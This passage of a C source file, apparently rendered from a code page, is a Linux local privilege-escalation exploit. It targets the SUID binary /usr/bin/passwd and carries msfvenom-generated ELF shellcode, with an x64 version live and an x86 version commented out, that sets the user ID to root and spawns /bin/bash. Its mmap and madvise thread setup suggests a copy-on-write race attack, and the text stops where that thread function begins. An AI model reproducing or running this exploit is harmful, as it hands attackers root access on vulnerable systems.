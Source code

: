 ```c

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

/*
* $ msfvenom -p linux/x86/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;
*/

void *madviseThread(void *arg)
{
    char *str;
```